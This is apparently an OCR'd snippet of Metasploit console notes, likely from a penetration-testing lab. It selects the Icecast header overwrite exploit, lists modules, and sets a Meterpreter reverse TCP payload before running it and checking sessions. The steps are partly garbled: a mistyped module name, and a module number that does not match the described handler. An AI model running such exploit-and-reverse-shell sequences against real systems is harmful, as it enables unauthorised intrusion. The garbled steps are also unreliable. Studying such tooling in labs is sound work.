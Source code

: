 List discovered vulnerabilities

```> vulns```

```
> use icecase
Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


[*] Using exploit/windows/http/icecast_header

msf5 exploit(windows/http/icecast_header) > search multi/handler
Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence
   6  exploit/multi/handler                                                 manual     No     Generic Payload Handler
   7  exploit/windows/browser/persits_xupload_traversal    2009-09-29       excellent  No     Persits XUpload ActiveX MakeHttpRequest Directory Traversal
   8  exploit/windows/mssql/mssql_linkcrawler              2000-01-01       great      No     Microsoft SQL Server Database Link Crawling Command Execution

> use 7 # number from previous search
> set PAYLOAD windows/meterpreter/reverse_tcp

> run -j # or exploit

> sessions
Active sessions
===============

